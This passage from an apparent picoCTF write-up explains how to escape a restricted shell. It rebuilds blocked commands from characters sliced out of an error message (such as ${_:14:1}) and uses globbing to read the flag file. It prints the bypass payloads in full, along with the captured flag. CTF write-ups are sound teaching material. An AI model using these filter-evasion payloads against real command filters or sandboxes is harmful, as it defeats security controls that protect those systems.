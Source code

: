 We find a directory called "blargh" and a text file called "on-calastran.txt" in
our working directory. Let's try to list the contents of the `blargh` directory
using `ls blargh`.

```python
generate(msg, 'ls blargh')
```

```
Traceback (most recent call last):
  File "<stdin>", line 1, in <module>
  File "<stdin>", line 2, in generate
  File "<stdin>", line 3, in <genexpr>
ValueError: substring not found
```

Why are we unable to generate a payload for this command? If we look closely, we
see this happens because the letter 'g' is not in the error message.

## Globbing to the rescue

We can always resort to globbing with `*/**`, matching all paths at depth 2. We
simply need to append it to the previous payload since special characters work
just fine.

```sh
"$(. 1 2>&1)"
${_:19:1}${_:2:1} */**
```

Running this on the picoCTF machine tells us that the flag resides in the
"blargh" directory.

```
blargh/flag.txt  blargh/on-alpha-9.txt
```

We can view the contents of `flag.txt` using the `cat` utility.

To avoid matching the other `on-alpha-9.txt` file and printing its contents,
we can distinguish the `flag.txt` by its first letter 'f' in the glob. Thus, to
view the flag, our target command will be `cat */f*`.

Let's generate the gadget for this round.

```python
print(generate(msg, 'cat') + " */" + generate(msg, "f") + "*")
```

```sh
${_:14:1}${_:1:1}${_:30:1} */${_:17:1}*    
```

We will append this to the first gadget and run them together.

```sh
"$(. 1 2>&1)"
${_:14:1}${_:1:1}${_:30:1} */${_:17:1}*    
```

Running this on the picoCTF machine finally fetches us the flag!

```
return 0 picoCTF{7h15_mu171v3r53_15_m4dn355_b0d5e855}
```

I really enjoy coming back to these CTF challenges because they force you to
think out of the box.

That's all for now. I hope you learned something. See you soon!

